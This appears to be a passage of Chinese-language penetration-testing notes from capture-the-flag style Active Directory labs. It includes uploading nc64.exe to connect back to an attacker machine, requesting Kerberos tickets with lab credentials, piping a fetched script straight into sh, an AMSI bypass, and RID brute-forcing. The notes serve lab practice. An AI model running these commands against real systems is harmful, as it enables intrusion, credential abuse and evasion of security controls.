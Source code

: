 - GetTGT.py
```bash
sudo pwsh
Install-Module -Name PSWSMan -Scope AllUsers   (安装开放管理基础设施)
exit

pwsh
Enter-PSSession dc1.scrm.local -Credential UserName
登录后再上传nc64.exe 链接到Kali
```

**0x02**
修改/etc/krb5.conf 后
```bash
└─$ python /usr/share/doc/python3-impacket/examples/getTGT.py scrm.local/MiscSvc:ScrambledEggs9900    Impacket v0.12.0.dev1 - Copyright 2023 Fortra                                                         [*] Saving ticket in MiscSvc.ccache

└─$ KRB5CCNAME=MiscSvc.ccache evil-winrm -r scrm.local -i dc1.scrm.local
```

##### 获得凭据信息执行 Powerview 脚本 (无远程登录的情况下)
https://github.com/aniqfakhrul/powerview.py
```bash
curl -L powerview.sh | sh
```

```bash
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
```


**如果 powershell 禁止加载脚本可以尝试绕过**
```
menu
Bypass-4MSI   (evil-winrm 自带的menu中的绕过方式)
```

**爆破 RID 枚举用户名**
```bash
crackmapexec smb rebound.htb -u QWE -p '' --rid-brute > RID_raw
```


## 排错

**STATUS_PASSWORD_MUST_CHANGE ： 需要更改密码**
```bash
smbpasswd -U [Username] -r <IP>
```

